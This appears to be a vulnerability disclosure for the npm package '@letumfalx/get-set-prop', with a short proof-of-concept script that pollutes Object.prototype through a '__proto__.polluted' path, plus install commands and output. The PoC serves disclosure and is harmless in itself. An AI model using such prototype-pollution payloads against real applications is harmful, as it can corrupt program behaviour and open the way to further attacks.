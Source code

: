 # Description

`@letumfalx/get-set-prop` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var getSetProp = require("@letumfalx/get-set-prop")
var obj = {}
console.log("Before : " + {}.polluted);
getSetProp.setProp(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @letumfalx/get-set-prop # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
